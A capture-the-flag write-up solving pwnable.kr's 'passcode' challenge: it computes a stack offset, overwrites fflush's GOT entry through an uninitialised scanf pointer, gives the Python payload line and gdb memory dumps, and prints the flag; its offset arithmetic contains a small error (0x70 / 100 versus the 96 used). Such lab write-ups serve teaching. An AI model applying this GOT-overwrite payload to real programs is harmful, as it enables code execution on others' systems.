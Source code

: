 # passcode

1. Login into with pass `guest`:
```
ssh passcode@pwnable.kr -p2222  
```

2. Look at the source code of passcode.c

3. How i solved this:
```
printf("Welcome %s!\n", name); // welcome func
fflush(stdin);                 // login func
```
0xffbaf578 - start addres of `name` buffer (on the stack)
0xffbaf5d8 - address of `passcode1`

The difference is 0xffbaf5d8 - 0xffbaf578 = 0x70 (100 bytes)
I can easily overrite an address of `passcode1` by filling last 4 bytes of the `name` buffer.

Now I take an address of `passcode1` and passes there a `flush` function address read from GOT table:

```
$ readelf -a passcode
```
Relocation section '.rel.plt' at offset 0x398 contains 9 entries:
 Offset     Info    Type            Sym.Value  Sym. Name
0804a000  00000107 R_386_JUMP_SLOT   00000000   printf@GLIBC_2.0
0804a004  00000207 R_386_JUMP_SLOT   00000000   fflush@GLIBC_2.0  <==============

The address of `flush` function: `0x0804a004` call is passed to `passcode1` address.
``` $ python -c "import struct; print(struct.pack("<I", 0x804a004))" ```
Now for the `scanf`, I pass an address of  `system("/bin/cat flag");` into `%d` call which will overwrite `flush` function address earlier stored in `passcode1`
The address of `system("/bin/cat flag");` read from `$gdb disas main` is following: `0x080485e3` .
So the full payload will be:

```
$ python -c "print('A'*96+'\x04\xa0\x04\x08\n'+str(0x080485e3))" > /tmp/payload

$ gdb passcode
(gdb) r < /tmp/payload

$ ./passcode < /tmp/payload
```

```
BEFORE scanf("%d", passcode1):
gef➤  x/2xw 0x0804a004
0x804a004 <fflush@got.plt>:     0x08048436      0x08048446

AFTER scanf("%d", passcode1):
gef➤ x/2xw 0x0804a004
0x804a004 <fflush@got.plt>:     0x080485e3      0x08048446
```


You'll get the flag:  
```
FLAG: {Sorry mom.. I got confused about scanf usage :(}
```
